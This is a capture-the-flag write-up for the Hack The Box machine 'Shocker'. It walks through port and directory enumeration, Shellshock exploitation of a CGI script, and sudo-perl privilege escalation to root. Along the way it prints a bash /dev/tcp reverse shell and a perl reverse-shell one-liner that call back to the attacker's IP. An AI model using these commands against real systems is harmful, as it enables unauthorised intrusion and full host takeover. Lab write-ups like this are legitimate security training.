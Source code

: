 # Shocker

First, make `shocker.htb` resolve to `10.10.10.56` in your `/etc/hosts` file.

### Enumeration

We start this off with a full port scan of `shocker.htb`.

```bash
$ nmap -sVC -p- -vvv -oN enumeration/allports shocker.htb
# Nmap 7.80 scan initiated Sat Apr 25 06:02:44 2020 as: nmap -sVC -p- -vvv -oN enumeration/allports shocker.htb
Nmap scan report for shocker.htb (10.10.10.56)
Host is up, received conn-refused (0.048s latency).
Scanned at 2020-04-25 06:02:45 CDT for 41s
Not shown: 65533 closed ports
Reason: 65533 conn-refused
PORT     STATE SERVICE REASON  VERSION
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 25 06:03:26 2020 -- 1 IP address (1 host up) scanned in 41.92 seconds
```

Ports `80` and `2222` are open, with `ssh` running on a weird port.

Website enumeration time.

```bash

$ gobuster dir -u http://shocker.htb/ -w ~/tools/wordlists/common.txt --wildcard -t 40 -o enumeration/gobuster-root
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://shocker.htb/
[+] Threads:        40
[+] Wordlist:       /home/alichtman/tools/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/25 06:13:49 Starting gobuster
===============================================================
/cgi-bin/ (Status: 403)
===============================================================
2020/04/25 06:13:52 Finished
===============================================================

$ gobuster dir -u http://shocker.htb/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -s 307,200,204,301,302,403 -x txt,sh,cgi,pl -t 50
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://shocker.htb/cgi-bin/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirb/small.txt
[+] Status codes:   200,204,301,302,307,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,sh,cgi,pl
[+] Timeout:        10s
===============================================================
2020/04/25 06:19:35 Starting gobuster
===============================================================
/user.sh (Status: 200)
===============================================================
2020/04/25 06:19:41 Finished
===============================================================
```

Let's check out `http://shocker.htb/cgi-bin/user.sh`.

```
Content-Type: text/plain

Just an uptime test script

07:27:15 up 22 min,  0 users,  load average: 0.03, 0.04, 0.02
```

Whenever you see `CGI` scripts, you should check for `shellshock` vulnerabilities.

### Reverse Shell

```bash
$ git clone git@github.com:nccgroup/shocker.git && cd shocker
$ ./shocker.py -H shocker.htb --cgi /cgi-bin/user.sh

   .-. .            .
  (   )|            |
   `-. |--. .-.  .-.|.-. .-. .--.
  (   )|  |(   )(   |-.'(.-' |
   `-' '  `-`-'  `-''  `-`--''  v1.1

 Tom Watson, tom.watson@nccgroup.trust
 https://www.github.com/nccgroup/shocker

 Released under the GNU Affero General Public License
 (https://www.gnu.org/licenses/agpl-3.0.html)


[+] Single target '/cgi-bin/user.sh' being used
[+] Checking connectivity with target...
[+] Target was reachable
[+] Looking for vulnerabilities on shocker.htb:80
[+] 1 potential target found, attempting exploits
[+] The following URLs appear to be exploitable:
  [1] http://shocker.htb:80/cgi-bin/user.sh
[+] Would you like to exploit further?
[>] Enter an URL number or 0 to exit: 1
[+] Entering interactive mode for http://shocker.htb:80/cgi-bin/user.sh
[+] Enter commands (e.g. /bin/cat /etc/passwd) or 'quit'
# I start a nc listener in my own shell
   > /bin/bash -i >&/dev/tcp/10.10.14.5/1234 0>&1
```

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.56] 56156
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$
shelly@Shocker:/usr/lib/cgi-bin$ cd /home/shelly
cd /home/shelly
shelly@Shocker:/home/shelly$ wc user.txt
wc user.txt
 1  1 33 user.txt
```

And that's our user proof.

### Root Privilege Escalation

I spin up a server on my local machine with `$ python3 -m http.server 80` and `$ wget 10.10.14.5/LinEnum.sh` from the remote machine, make it executable with `$ chmod +x LinEnum.sh`, and run it with `$ ./LinEnum.sh -t`. In the output, I spot this:

```
[+] We can sudo without supplying a password!
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

[+] Possible sudo pwnage!
/usr/bin/perl
```

I grab my favorite `perl` reverse shell: `$ perl -e 'use Socket;$i="10.10.14.5";$p=1235;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`, throw `sudo` before it and run it on the remote machine after opening a `nc` listener on my host.

```
$ nc -lvnp 1235
listening on [any] 1235 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.56] 34722
# whoami
root
# wc -l /root/root.txt
1 /root/root.txt
```

And there is our root shell.
